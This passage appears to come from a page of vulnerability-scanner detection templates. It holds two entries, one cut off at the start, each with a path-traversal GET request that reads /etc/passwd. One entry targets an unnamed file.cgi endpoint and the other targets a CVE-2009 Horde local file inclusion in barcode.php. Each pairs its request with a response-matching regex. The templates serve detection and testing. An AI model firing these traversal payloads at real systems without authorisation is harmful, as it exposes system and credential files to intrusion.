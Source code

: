 - Method - GET

### URL

- {{BaseURL}}/adm/file.cgi?next_file=%2fetc%2fpasswd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---

# Horde/Horde Groupware - Local File Inclusion

## Description

- Horde before 3.2.4 and 3.3.3 and Horde Groupware before 1.1.5 are susceptible to local file inclusion in framework/Image/Image.php because it allows remote attackers to include and execute arbitrary local files via directory traversal sequences in the Horde_Image driver name.
- severity - high
- tags - cve,cve2009,horde,lfi,traversal,edb

## Requests

- Method - GET

### URL

- {{BaseURL}}/horde/util/barcode.php?type=../../../../../../../../../../../etc/./passwd%00

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**

- status
  1. 200

---
